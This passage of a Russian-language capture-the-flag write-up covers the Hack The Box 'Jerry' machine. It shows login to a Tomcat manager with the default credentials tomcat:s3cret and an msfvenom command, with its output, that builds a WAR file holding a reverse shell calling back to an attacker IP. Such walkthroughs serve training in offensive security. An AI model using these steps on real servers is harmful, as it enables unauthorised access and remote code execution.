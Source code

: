 Помимо всего прочего видим сообщение о существовании дефолтного аккаунта для менеджера приложений. Проверим, действительно ли подойдут дефолтные креды.

# Web — Порт 8080
## Браузер
На `http://10.10.10.95:8080`, как и ожидалось, мы видим стандартную домашнюю страница Tomcat'а:

[![port80-browser-1.png]({{ "/img/htb/boxes/jerry/port80-browser-1.png" | relative_url }})]({{ "/img/htb/boxes/jerry/port80-browser-1.png" | relative_url }})
{: .center-image}

Попытка залогиниться в менеджере приложений (aka *Tomcat Web Application Manager*) с авторизационными данными по умолчанию `tomcat:s3cret` проходит успешно и мы оказываемся в админке:

[![port80-browser-2.png]({{ "/img/htb/boxes/jerry/port80-browser-2.png" | relative_url }})]({{ "/img/htb/boxes/jerry/port80-browser-2.png" | relative_url }})
{: .center-image}

# Эксплуатируем Tomcat
Для того, чтобы получить reverse-shell, будем использовать функционал развертывания war-файлов "WAR file to deploy":

[![port80-browser-3.png]({{ "/img/htb/boxes/jerry/port80-browser-3.png" | relative_url }})]({{ "/img/htb/boxes/jerry/port80-browser-3.png" | relative_url }})
{: .center-image}

## Web Application Resource
**W**eb **A**pplication **R**esource (WAR) файлы — это такие файлы-контейнеры (архивы, по сути), которые содержат в себе все необходимое для Java-приложения. Это могут быть Java-архивы (.jar), страницы Java Server Pages (.jsp), Java-сервлеты, Java-классы, веб-страницы, стили CSS и т. п.

В директории `/WEB-INF` внутри таких архивов содержится файл `web.xml`, определяющий структуру приложения.

Менеджер приложений Tomcat позволяет в один клик разворачивать Java-приложения из WAR-файлов на сервере, а так как последние содержат исполняемый Java-код, то они являются идеальной целью для внедрения вредоносной нагрузки.

## Генерируем WAR-файлы
Собрать WAR-файл с reverse-shell'ом внутри можно с помощью msfvenom:
```text
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.71 LPORT=31337 -f war > sh3ll.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52250 bytes
```

Также можно было использовать `-p java/shell_reverse_tcp`, ориентированный на meterpreter-сессию, однако в нем будет много обвесов для Metasploit'а, которые будут нам мешать при [анализе содержимого]({{ page.url }}#внутри-sh3llwar).
